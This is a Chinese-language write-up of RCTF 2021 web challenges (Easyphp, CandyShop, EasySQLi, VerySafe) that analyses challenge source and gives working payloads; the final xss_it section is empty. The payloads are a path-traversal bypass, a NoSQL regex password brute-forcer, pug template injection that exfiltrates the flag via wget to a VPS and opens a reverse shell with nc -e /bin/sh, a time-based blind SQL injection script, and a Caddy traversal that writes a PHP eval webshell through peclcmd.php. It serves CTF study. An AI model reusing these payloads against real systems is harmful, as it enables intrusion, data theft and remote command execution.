

# RCTF 2021

## Easyphp

> *2021/10/20*

### 题目

这道题给了源码，一个 **Nginx** 的服务器，`flight`框架的代码，

#### `Nginx.conf`

```nginx
server {
    listen       80;
    listen  [::]:80;
    server_name  localhost;

    #access_log  /var/log/nginx/host.access.log  main;
    root   /var/www/html;
    location /admin {
        allow 127.0.0.1;
        deny all;
    }
    location / {
        index  index.php;
        try_files $uri @phpfpm;
    }

    #error_page  404              /404.html;

    # redirect server error pages to the static page /50x.html
    #
    error_page   500 502 503 504  /50x.html;
    location = /50x.html {
        root   /usr/share/nginx/html;
    }

    # proxy the PHP scripts to Apache listening on 127.0.0.1:80
    #
    #location ~ \.php$ {
    #    proxy_pass   http://127.0.0.1;
    #}

    # pass the PHP scripts to FastCGI server listening on 127.0.0.1:9000
    #
    location @phpfpm {
        include        fastcgi_params;
        fastcgi_split_path_info ^(.+?\.php)(/.*)$;
        fastcgi_pass   php:9000;
        fastcgi_index  index.php;
        fastcgi_param  SCRIPT_FILENAME  $document_root/index.php;
        fastcgi_param  REQUEST_URI  $uri;
    }

    # deny access to .htaccess files, if Apache's document root
    # concurs with nginx's one
    #
    #location ~ /\.ht {
    #    deny  all;
    #}
}
```

这个配置文件主要就是记录了服务器的配置问题，`location`这里就是接受`/`和`/admin`，但是`/admin`会过滤掉非`localhost`请求的由`/`的逻辑解析，而`/`中，如果什么请求都不带，就进入`index.php`；而`try_files`语句的主要作用就是按照顺序查找存在的文件，而这里就是先看`$uri`中是否存在这个文件，不存在的话就进入`phpfpm`中，而这个环境里没别的`$uri`文件，所以就是到`phpfpm`这个逻辑里，这里接受两个参数`SCRIPT_FILENAME`和`REQUEST_URI`，前者就是fpm执行`index.php`，后者就是 **Nginx** 解析`$uri`变量

#### `flight`框架

```php
// index.php
function isdanger($v){
    if(is_array($v)){
        foreach($v as $k=>$value){
            if(isdanger($k)||isdanger($value)){
                return true;
            }
        }
    }else{
        if(strpos($v,"../")!==false){
            return true;
        }
    }
    return false;
}

$app->before("start",function(){
    foreach([$_GET,$_POST,$_COOKIE,$_FILES] as $value){
        if(isdanger($value)){
            die("go away hack");
        }
    }
});
$app->route('/*', function(){
    global $app;
    $request = $app->request();
    $app->render("head",[],"head_content");
    if(stristr($request->url,"login")!==FALSE){
        return true;
    }else{
        if($_SESSION["user"]){
            return true;
        }
        $app->redirect("/login");
    }

});

$app->route('/admin', function(){
    global $app;
    $request = $app->request();
    $app->render("admin",["data"=>"./".$request->query->data],"body_content");
    $app->render("template",[]);
});

$app->route("POST /login",function(){
    global $username,$password,$app;
    $request  = $app->request();
    if($request->data->username === $username && $request->data->password === $password){
        $_SESSION["user"] = $username;
        $app->redirect("/");
        return;
    }
    $app->redirect("/login?fail=1");
});
```

框架首先队参数进行了过滤，防御了路径穿越，然后是几个路由，`/login`想要登录，必须是强等于，而`/admin`会接受一个`data`参数，拼接一个`./`进行模板渲染

而模板渲染中，`admin.php`如下

```php+HTML
<h3>File List:</h3>
<script>
</script>
<div class="bg-light border rounded-3" style="white-space: pre-line">
    <?php
        $dir = pathinfo($data?$data:".",PATHINFO_DIRNAME);
        foreach(scandir($dir) as $v){
            echo "<a href=\"/admin?data=$dir/$v\">$v</a><br />";
        }
    ?>
</div>
<?php if ($data) { ?><h3><?= $data . ":" ?></h3>
    <div class="bg-light border rounded-3"><code style="white-space: pre-line"><?php echo file_get_contents($data); ?></code></div><?php } ?>
```

很明显有一个文件包含，所以我们的思路就是想办法进入的`/admin`中传递参数，首先看框架中路由的相关代码`/net/Router.php`

```php
<?php
    public function route(Request $request) {
        $url_decoded = urldecode( $request->url );
        while ($route = $this->current()) {
            if ($route !== false && $route->matchMethod($request->method) && $route->matchUrl($url_decoded, $this->case_sensitive)) {
                return $route;
            }
            $this->next();
        }

        return false;
    }
}
```

`route`函数，首先会对url进行一次解码，而这个url来自`$request->url`来自于`Request.php`，这里会将`SCRIPT_NAME`的最前面截掉

```php
<?php
    public function __construct($config = array()) {
        // Default properties
        if (empty($config)) {
            $config = array(
                'url' => str_replace('@', '%40', self::getVar('REQUEST_URI', '/')),
                'base' => str_replace(array('\\',' '), array('/','%20'), dirname(self::getVar('SCRIPT_NAME'))),
                'method' => self::getMethod(),
                'referrer' => self::getVar('HTTP_REFERER'),
                'ip' => self::getVar('REMOTE_ADDR'),
                'ajax' => self::getVar('HTTP_X_REQUESTED_WITH') == 'XMLHttpRequest',
                'scheme' => self::getScheme(),
                'user_agent' => self::getVar('HTTP_USER_AGENT'),
                'type' => self::getVar('CONTENT_TYPE'),
                'length' => self::getVar('CONTENT_LENGTH', 0),
                'query' => new Collection($_GET),
                'data' => new Collection($_POST),
                'cookies' => new Collection($_COOKIE),
                'files' => new Collection($_FILES),
                'secure' => self::getScheme() == 'https',
                'accept' => self::getVar('HTTP_ACCEPT'),
                'proxy_ip' => self::getProxyIpAddress(),
                'host' => self::getVar('HTTP_HOST'),
            );
        }

        $this->init($config);
    }

    /**
     * Initialize request properties.
     *
     * @param array $properties Array of request properties
     */
    public function init($properties = array()) {
        // Set all the defined properties
        foreach ($properties as $name => $value) {
            $this->$name = $value;
        }

        // Get the requested URL without the base directory
        if ($this->base != '/' && strlen($this->base) > 0 && strpos($this->url, $this->base) === 0) {
            $this->url = substr($this->url, strlen($this->base));
        }

        // Default url
        if (empty($this->url)) {
            $this->url = '/';
        }
        // Merge URL query parameters with $_GET
        else {
            $_GET += self::parseQuery($this->url);

            $this->query->setData($_GET);
        }

        // Check for JSON input
        if (strpos($this->type, 'application/json') === 0) {
            $body = $this->getBody();
            if ($body != '') {
                $data = json_decode($body, true);
                if (is_array($data)) {
                    $this->data->setData($data);
                }
            }
        }
    }
```

而`Route.php`里就是最后匹配url的函数

```php
<?php
    public function matchUrl($url, $case_sensitive = false) {
        // Wildcard or exact match
        if ($this->pattern === '*' || $this->pattern === $url) {
            return true;
        }

        $ids = array();
        $last_char = substr($this->pattern, -1);

        // Get splat
        if ($last_char === '*') {
            $n = 0;
            $len = strlen($url);
            $count = substr_count($this->pattern, '/');

            for ($i = 0; $i < $len; $i++) {
                if ($url[$i] == '/') $n++;
                if ($n == $count) break;
            }

            $this->splat = (string)substr($url, $i+1);
        }

        // Build the regex for matching
        $regex = str_replace(array(')','/*'), array(')?','(/?|/.*?)'), $this->pattern);

        $regex = preg_replace_callback(
            '#@([\w]+)(:([^/\(\)]*))?#',
            function($matches) use (&$ids) {
                $ids[$matches[1]] = null;
                if (isset($matches[3])) {
                    return '(?P<'.$matches[1].'>'.$matches[3].')';
                }
                return '(?P<'.$matches[1].'>[^/\?]+)';
            },
            $regex
        );

        // Fix trailing slash
        if ($last_char === '/') {
            $regex .= '?';
        }
        // Allow trailing slash
        else {
            $regex .= '/?';
        }

        // Attempt to match route and named parameters
        if (preg_match('#^'.$regex.'(?:\?.*)?$#'.(($case_sensitive) ? '' : 'i'), $url, $matches)) {
            foreach ($ids as $k => $v) {
                $this->params[$k] = (array_key_exists($k, $matches)) ? urldecode($matches[$k]) : null;
            }

            $this->regex = $regex;

            return true;
        }

        return false;
    }
```

`pattern`是`/admin`的时候其中的正则表达式为`#^/admin/?(?:\\?.*)?$#i`，即为正则表达式为`^/admin/?(?:\?.*)?$`，忽略大小写，而这里我们采用`/admin%3flogin`这种路径，在这里就会变成`/admin?login`这样的字符，且能被正确匹配到`/admin`路由上，这样就相当于我们拿到了admin权限

> `fastcgi_param REQUEST_URI $uri;`，作用为在向fastcgi传递一个`REQUEST_URI`参数，而该参数是被nginx解析过的`$uri`变量，该变量仅包括路径，**不包括query_string**。而url来自`REQUEST_URI`，就是这个nginx的`$uri`变量，不包含`query_string`，这样子后端收到的内容就是`/vme/admin`，并没有`login`字符，而根据`index.php`中的逻辑，没有`login`的话会被框架重定向到`/login`下

而我们只需要提交`data`参数就可以了，但是需要绕过对`../`的过滤

```php
<?php
    public static function parseQuery($url) {
        $params = array();

        $args = parse_url($url);
        if (isset($args['query'])) {
            parse_str($args['query'], $params);
        }

        return $params;
    }
```

下面的代码其实很好判断，由于用了`parse_url`和`parse_str`，我们可以对后面进行两次url编码就可以绕过

但是这里似乎还是有哪里不太对，因为URL是收的nginx转发过来的REQUEST_URI，我们如果使用`%3f`去让nginx认为`/aa/admin%3flogin`是一个完整的url，那么nginx在和fpm通信时，理论上是不会解码这个数据的，那么后端收到的url也应该是`/aa/admin%3flogin`，而在route的时候因为进行了url解码，所以能正确解析，但参数解析时并不会进行url解码，那么`%3f`后面的内容也就不会被parse_url放到`$args['query']`中去，也就不会经历第二次解码才对

> 这题的漏洞点在于，各种额外的urldecode。`REQUEST_URI` 来自 `$uri`, `$uri` 是没有经过urldecode的. PHP-FPM 回对收到的`REQUEST_URI`进行urldecode

综上，该题目的两种payload都是为了使用`$uri`，一种是通过阶段绕过`/admin`，一种是通过编码

### payload

```
/%2561%2564%256d%2569%256e%3flogin=123%26data=..%252f..%252f..%252f..%252fflag
/aa/admin%3flogin&data=..%252f..%252f..%252f..%252fflag
```

## CandyShop

>*2021/10/20*

### 题目

> **该题目原题与github上的题目代码略有出入**

这道题是一道 `Nodejs`的题，进去是一个很简单的页面



代码如下

```javascript
//user.js
router.post('/login', async (req, res) => {
    let {username, password} = req.body
    let rec = await db.Users.find({username: username, password: password})
    if (rec) {
        if (rec.username === username && rec.password === password) {
            res.cookie('token', rec, {signed: true})
            res.redirect('/shop')
        } else {
            res.render('login', {error: 'You Bad Bad >_<'})
        }
    } else {
        res.render('login', {error: 'Login Failed!'})
    }
})

router.post('/register', async (req, res) => {
    let {username, password} = req.body
    if (typeof(username) !== 'string')
        return res.status(400)
    let rec = await db.Users.find({username: username})
    if (rec)
        return res.render('register', {error: 'Duplicate User!'})
    await db.Users.add(username, password, false)
    return res.redirect('/user/login')
})

//db.js
users.deleteMany(err => {
    if (err) {
        console.log(err)
    } else {
        users.insertOne({
            username: 'rabbit',
            password: process.env.PASSWORD,
            active: true
        })
    }
})
```

结合`db.js`和`user.js`，来看用户在注册时生成的用户都是不活跃的用户，即`active:false`，但是，在数据库里事先生成了一个`rabbit`用户，但是密码是纯随机的。但是该页面存在`nosql`注入，在`/login`路径下，我们可以爆破`rabbit`用户的密码

```javascript
// shop.js
const checkLogin = (req, res, next) => {
    if (req.signedCookies.token)
        next()
    else
        res.render('error', {error: 'You must login!'})
}

const checkActive = (req, res, next) => {
    if (req.signedCookies.token.active)
        next()
    else
        res.render('error', {error: 'Your account is not active!'})
}


router.get('/', checkLogin, async (req, res) => {
    let candies = await db.Candies.list()
    res.render('shop', {candies: candies})
})

router.get('/order', checkLogin, checkActive, async (req, res) => {
    let {id} = req.query
    let candy = await db.Candies.find({id: id})
    res.render('order', {user_name: req.signedCookies.token.username, candy: candy})
})

router.post('/order', checkLogin, checkActive, async (req, res) => {
    let {user_name, candy_name, address} = req.body

    res.render('confirm', {
        user_name: user_name,
        candy_name: candy_name,
        address: pug.render(address)
    })
})
```

该页面主要处理登陆后面的逻辑，我们之前已经得到了`rabbit`用户，可以直接进入`/order`路径下，该逻辑会将`address`导入到`confirm.pug`这个页面

```java
extends layout


block content
    .container
        .row.justify-content-center
            .col-6.mt-5
                .card
                    .card-header.text-center.font-weight-bold(style='background-color: pink;color: white') Confirm Your Order
                    .card-body
                    form(action='/shop/confirm' method='POST')
                        .form-group.row
                            label.col-form-label.text-md-right.col-4(for='user_name') User Name
                            .col-6
                                input#user_name.form-control(type='text' name='user_name' value=user_name readonly)
                        .form-group.row
                            label.col-form-label.text-md-right.col-4(for='candy_name') Candy Name
                            .col-6
                                input#candy_name.form-control(type='text' name='candy_name' value=candy_name readonly)
                        .form-group.row
                            label.col-form-label.text-md-right.col-4(for='address') Address
                            .col-6
                                input#address.form-control(type='text' name='address' value='123' readonly)
                                #{console.log(global.process.mainModule.require("child_process").execSync("wget -q -O- VPS_IP/`cat /flag`").toString())}
                                //input#address.form-control(type='text' name='address' value='123')
                        if error
                            .alert.alert-danger.mx-5(role='alert') #{error}
                    .row.justify-content-center
                        .col-6
                            a(href='/shop/thanks')
                                button.btn.btn-primary.btn-block(type='submit') Yes
                        .col-6
                            a(href='/shop')
                                button.btn.btn-primary.btn-block No
```

而在这个页面下存在着`pug`模板注入，需要注意的是`github`的代码和比赛环境差距就在`address`变量，一个是字符型，一个是变量，要注意

### payload

```python
import requests
import time
import string

url = "http://127.0.0.1:3000/user/login"
password = ""
#charset = string.ascii_letters + string.punctuation
charset = string.printable

for i in range(64):
    for s in charset:
        data = {
            "username": "rabbit",
            "password[$regex]": f"^{re.escape(password + s)}"
        }
        #print(s)
        res = requests.post(url, data)
        if "You Bad Bad" in res.text:
            password += s
            print(password)
            break
```

```
user_name=rabbit&candy_name=bunny_candy&address=123 readonly)%0a                                #{console.log(global.process.mainModule.require("child_process").execSync("nc 192.168.232.1 9999 -e /bin/sh").toString('UTF-8'))}%0a                                input#address.form-control(type='text' name='address' value='123')
```

## EasySQLi

>  *2021/10/20*

### 题目

这道题给了源代码

```php
<?php
require_once('db.php');
highlight_file(__FILE__);

set_time_limit(1);
$s = floatval(microtime());

$order = $_GET['order'] ?? 1;
$sql = "SELECT CONCAT('RCTF{',USER(),'}') AS FLAG WHERE '🍬关注嘉然🍬' = '🍬顿顿解馋🍬' OR '🍬Watch Diana a day🍬' = '🍬Keep hunger away🍬' OR '🍬嘉然に注目して🍬' = '🍬食欲をそそる🍬' ORDER BY $order;";

$stm = $pdo->prepare($sql);
$stm->execute();
echo "Count {$stm->rowCount()}.";

usleep((1 + floatval(microtime()) - $s) * 1e6);
```

`set_time_limit`函数会限制页面执行时间在1s，后面的`usleep`会让页面稳定延迟在1s，`SQL`语句用了预编译，但是参数却是在`order by`后面，所以根本没影响，还是可以注入.

而`set_time_limit`函数有这样的限制

> *Note:
> The set_time_limit() function and the configuration directive max_execution_time only affect the execution time of the script itself. Any time spent on activity that happens outside the execution of the script such as system calls using system(), stream operations, database queries, etc. is not included when determining the maximum time that the script has been running. This is not true on Windows where the measured time is real.*

也就是说SQL本身的延时并不在这个计时范围内，所以我们需要让`SQL`语句也延时，才能攻击成功，但是常规的`sleep`会被优化掉，需要让`SQL`做一些耗时间的工作，达到延迟的效果

#### `repeat`

```sql
SELECT
    CONCAT( 'RCTF{', USER (), '}' ) AS FLAG 
WHERE
    '🍬关注嘉然🍬' = '🍬顿顿解馋🍬' OR '🍬Watch Diana a day🍬' = '🍬Keep hunger away🍬' OR '🍬嘉然に注目して🍬' = '🍬食欲をそそる🍬' 
ORDER BY
(
    updatexml (1,
        IF(
            ASCII(SUBSTR((SELECT USER()), 1, 1 )) = 65,
            CONCAT(REPEAT('a', 40000000), REPEAT('a', 40000000), REPEAT('a', 40000000), REPEAT('a', 40000000), REPEAT('b', 10000000)),
            1
        ),
        1
    ) 
)
```

#### `hex`

```sql
SELECT
    CONCAT( 'RCTF{', USER (), '}' ) AS FLAG 
WHERE
    '🍬关注嘉然🍬' = '🍬顿顿解馋🍬' OR '🍬Watch Diana a day🍬' = '🍬Keep hunger away🍬' OR '🍬嘉然に注目して🍬' = '🍬食欲をそそる🍬' 
ORDER BY
(
    updatexml (1,
        concat(
            '~',
            (
                if(
                    (substr(hex(user()), 1, 1)='A'),
                    (select length(hex(hex(hex(hex(hex(hex(hex(hex(hex(hex(hex(hex(hex(hex(hex(hex(hex(hex(hex(hex(hex(hex(hex(hex(hex(hex(hex(hex(hex(hex('1')))))))))))))))))))))))))))))))),
                    'a'
                )
            ),
            1
        ),
        1
    )
)
```

#### `redos`

```sql
SELECT
    CONCAT( 'RCTF{', USER (), '}' ) AS FLAG 
WHERE
    '🍬关注嘉然🍬' = '🍬顿顿解馋🍬' OR '🍬Watch Diana a day🍬' = '🍬Keep hunger away🍬' OR '🍬嘉然に注目して🍬' = '🍬食欲をそそる🍬' 
ORDER BY
(
    SELECT 1 WHERE
        IF(
            ASCII(SUBSTR(USER(), 1, 1 )) = 65,
            REPEAT('a', 100),
            'a'
        )
        RLIKE '(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+b' 
)
```

### payload

```python
# -*- coding:utf8 -*-
import requests
import string

flag = ''
select = 'select/**/user()'
url = "http://127.0.0.1:11002/?order="
for j in range(1, 66):
    for i in string.printable:
        #payload="updatexml(1,if(substr(({}),{},1)='{}',repeat('a',40000000),0),1)".format(select, j, i)
        payload = "updatexml(1,if(ascii(substr(({}),{},1))='{}',concat(repeat('a',40000000),repeat('a',40000000),repeat('a',40000000),repeat('a',40000000),repeat('b',10000000)),1),1)".format(select, j, ord(i))
        url1 = url + payload
        req = requests.get(url1)
        #print(req.elapsed.total_seconds())
        #print(payload)
        if req.elapsed.total_seconds() > 1.4:
            flag += i
            print(payload)
            print(flag)
```

## VerySafe

> *2021/10/20*

### 题目

这道题的`caddy`和`Nginx`很相似，这里什么都没给，只有一个空白页面，服务器为`caddy`，将服务都反向代理到`php fpm`上

```php
:80 {
	root * /srv
	php_fastcgi php:9000
}
```

因为什么都没给，所以首先只能对`caddy`的历史漏洞进行搜查，该版本为`2.4.2`，从`github`上可以查到，`Caddy <= 2.4.2` 在传递`script_path`给`php-fpm`的时候可以目录穿越，而这道题的另外一个考点就是 [**利用php自带文件进行RCE**](https://web.archive.org/web/20201022203937/https://khack40.info/camp-ctf-2015-trolol-web-write-up/)

> *在php官方提供的php容器中 register_argc_argv 是默认开启的，而且也默认包含peclcmd.php，于是就可以在默认php-fpm的docker和caddy<=2.4.2的环境下无条件RCE*

### payload

```http
GET /../usr/local/lib/php/peclcmd.php?+config-create+/tmp/<?=eval($_POST['cmd']);?>/*+/srv/bme.php HTTP/1.1
Host: 127.0.0.1:54120
sec-ch-ua: "Chromium";v="95", ";Not A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

```http
POST /bme.php HTTP/1.1
Host: 127.0.0.1:54120
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="95", ";Not A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 24

cmd=system('/readflag');
```

## xss_it

### 题目

### payload

